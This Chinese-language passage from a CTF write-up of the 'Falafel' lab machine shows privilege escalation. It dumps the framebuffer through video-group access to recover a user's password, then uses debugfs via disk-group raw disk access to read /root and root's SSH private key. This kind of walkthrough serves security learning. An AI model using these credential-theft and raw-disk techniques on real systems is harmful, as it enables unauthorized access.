

## moshe → yossi(从帧缓冲区检索凭证)

这种权限提升需要大量的枚举工作。而且和`moshe`用户群有关。该用户是许多群组的一部分，尤其是`video`很有趣。



该`video`组中的用户可以访问视频捕获设备，如[帧缓冲区](https://en.wikipedia.org/wiki/Linux_framebuffer)。所以我列举了`video`的组信息。

```
**$ find / -group video 2>/dev/null**
/dev/fb0
/dev/dri/card0
/dev/dri/renderD128
/dev/dri/controlD64
```

framebuffer 设备很有趣，我把它放到了一个文件中，并转移到了我的 Kali 中。

```
**# Saving it to a file**
$ file /dev/fb0
/dev/fb0: character special (29/0)
$ cat /dev/fb0 > fb0.data**# Moving it to Kali**
# scp moshe@10.10.10.73:/home/moshe/fb0.data .
moshe@10.10.10.73's password: 
fb0.data                                                                                                                                  100% 4065KB   4.5MB/s   00:00
```

下载完成后，我使用 Gimp 之类的图像浏览器打开`fb0.data`文件以获取`yossi : MoshePlzStopHackingMe!`的密码。

```
**# Installing Gimp to your Kali**
apt-get install gimp
apt-get install liblcms2-2 (If you get a LiblCMS mismatch error)
```



## yossi → root(文件系统调试权限)

`yossi`也是许多组的一部分，但是她是`disk`组的一部分，她可以对磁盘进行原始访问。

> **磁盘**:对磁盘的原始访问。**大多相当于 root 权限。**
> 
> 组**磁盘**可能非常危险，因为/dev/sd*和/dev/hd*中的硬盘驱动器可以绕过任何文件系统和任何分区进行读写，允许普通用户在没有 root 权限的情况下公开、更改和销毁分区以及这些驱动器的数据。用户永远不应该属于这个组。
> 
> [https://wiki.debian.org/SystemGroups](https://wiki.debian.org/SystemGroups)



首先，我检查了沙拉三明治盒子中的主文件系统，它是`/dev/sda1`。



我使用了`debugfs`命令来启用文件系统调试模式，并在其中看到了`/root`目录访问。

```
**yossi@falafel:~$ debugfs /dev/sda1**
debugfs 1.42.13 (17-May-2015)
debugfs:  ls /
```



这允许我阅读`root.txt`国旗。



## 获取根外壳

我可以读取`root`用户的`id_rsa` (SSH 私有密钥):



使用它，我获得了机器的完全 root 访问权限:



# 结论

老实说，这是迄今为止与 OSWE 最相关的盒子。关于权限提升的部分就不多说了，但是最初的立足点——SQLi 和 PHP 类型的杂耍——攻击载体非常有趣，对 OSWE 来说是很好的学习。

感谢阅读！



[感谢 TJ_NULL 提供 OSWE 类虚拟机列表](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)